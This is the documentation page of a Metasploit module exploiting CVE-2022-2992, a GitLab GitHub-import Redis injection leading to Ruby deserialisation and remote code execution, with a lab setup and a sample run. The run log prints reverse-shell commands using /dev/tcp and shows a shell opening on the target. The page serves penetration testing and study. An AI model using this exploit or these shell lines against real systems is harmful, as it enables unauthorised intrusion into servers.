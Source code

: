 ## Vulnerable Application

### Description

An authenticated user can import a repository from GitHub into GitLab.

When importing a GitHub repository the GitLab api client uses `Sawyer` for handling the responses. This takes a JSON hash and converts
it into a Ruby class that has methods matching all of the keys. This happens recursively, and allows for any method to be overridden
including built-in methods such as `to_s`.

The redis gem uses `to_s` and `bytesize` to generate the RESP (Redis serialization protocol) command. By replying with a specially
crafted JSON object (that will be further parsed as a `Sawyer::Resource`), one controlling the GitHub server can inject arbitrary
redis commands to the stream.

On August 30, 2022, GitLab released a software update that addressed this vulnerability (CVE-2022-2992).

The following products are affected:

- From 11.10 to 15.1.6
- From 15.2 to 15.2.4
- From 15.3 to 15.3.2


### Exploitation

This module exploits the GitLab vulnerability by injecting a Ruby serialized object into the Redis user
session object. Once GitLab calls the Marshal.load when loading the ` _gitlab_session` cookie, it will
execute a deserialisation gadget and trigger the payload.

To achieve that this module:
- Will generate an universal Ruby deserialisation gadget payload;
- Will create an access token for the user targeted;
- Will start a server to emulate GitHub and serve the payload to be injected;
- Will create a group and also trigger the GitHub import feature to the repository from the controlled server
- Will perform a request using the just injected session ID that when loaded must trigger the payload.

After the execution the cleanup method will be called and:
- Should delete the created group and consequently the repository
- Should revoke the access token created
- Should logout the user

### Setup

Create a `docker-compose.yml` file as below:

```yml
services:
  gitlab:
    image: 'gitlab/gitlab-ee:15.3.1-ee.0'
    restart: always
    container_name: gitlab
    hostname: 'gitlab.example'
    network_mode: "bridge"
    ports:
      - '880:80'
      - '8443:443'
    volumes:
      - gitlab_config:/etc/gitlab
      - gitlab_logs:/var/log/gitlab
      - gitlab_data:/var/opt/gitlab
volumes:
  gitlab_config:
    driver: local
  gitlab_logs:
    driver: local
  gitlab_data:
    driver: local
```

Run the below command to create the container:

```
$ docker-compose up
```

Wait for container to be "healthy" before continue. One can use [this](https://github.com/redwaysecurity/CVEs/blob/main/CVE-2022-2992/environment/healthy.sh) bash script to monitor the status.

```
$ # Creating personal access token for the root user
$ TOKEN=`tr -dc A-Za-z0-9 </dev/urandom | head -c 24 ; echo ''`
$ docker exec -e TOKEN=$TOKEN -it gitlab gitlab-rails runner "token = User.find_by_username('root').personal_access_tokens.create(scopes: [:sudo, :api], name: 'Automation token'); token.set_token(ENV['TOKEN']); token.save!"
$ # Using the personal access token from the root user a user.
$ USER=msf
$ PASSWORD=SuperStrongestGitLabPassword
$ curl --request POST --header "PRIVATE-TOKEN: $TOKEN" --data "skip_confirmation=true&email=$USER@gitlab.example&name=$USER&username=$USER&password=$PASSWORD" "http://gitlab.example:880/api/v4/users"
```

## Verification Steps
Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### TARGETURI (required)

The path to the GitLab (Default: `/`).

### USERNAME (required)

The username of the target user to authenticate with.

### PASSWORD (required)

The password of the target user to authenticate with.

### NGROK_URL (required)

The Ngrok tunnel url to be used. The GitLab will perform requests to this address when trying to import the repository.

Example how start the tunnel:
```
ngrok http 127.0.0.1:4567
```

### SRVHOST (required)

The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.

### SRVPORT (required)

The local port to listen on. This is the port to be used when creating the tunnel.

## Scenarios

### Docker container running GitLab 15.3.1

```
msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > options

Module options (exploit/multi/http/gitlab_github_import_rce_cve_2022_2992):

   Name       Current Setting                         Required  Description
   ----       ---------------                         --------  -----------
   NGROK_URL  https://f8f5-194-230-160-77.eu.ngrok.i  yes       The Ngrok tunnel url
              o
   PASSWORD   12345678                                yes       The password for the specified username
   Proxies    http:172.25.144.1:8080                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.25.144.1                            yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                                                k/wiki/Using-Metasploit
   RPORT      880                                     yes       The target port (TCP)
   SRVHOST    0.0.0.0                                 yes       The local host or network interface to listen on. This must be an add
                                                                ress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    4567                                    yes       The local port to listen on.
   SSL        false                                   no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                            no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                                       yes       The base path to the gitlab application
   URIPATH                                            no        The URI to use for this exploit (default is random)
   USERNAME   heyder                                  yes       The username to authenticate as
   VHOST                                              no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting       Required  Description
   ----   ---------------       --------  -----------
   LHOST  host.docker.internal  yes       The listen address (an interface may be specified)
   LPORT  4444                  yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command

msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > exploit

[+] bash -c '0<&212-;exec 212<>/dev/tcp/host.docker.internal/4444;sh <&212 >&212 2>&212'
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) >
[-] Handler failed to bind to 169.254.192.184:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[!] AutoCheck is disabled, proceeding with exploitation
[*] Using URL: http://host.docker.internal:4567/
[*] Executing command: bash -c '0<&151-;exec 151<>/dev/tcp/host.docker.internal/4444;sh <&151 >&151 2>&151'
[*] Session ID: lbid
[*] Creating group KQPhsIKX
[*] Importing a repository from github
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:58700) at 2022-11-19 15:23:06 +0100

msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > sessions -1
[*] Starting interaction with 1...

id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-rails/working
exit
[*] Server stopped.
[*] 172.25.144.1 - Command shell session 1 closed.
```
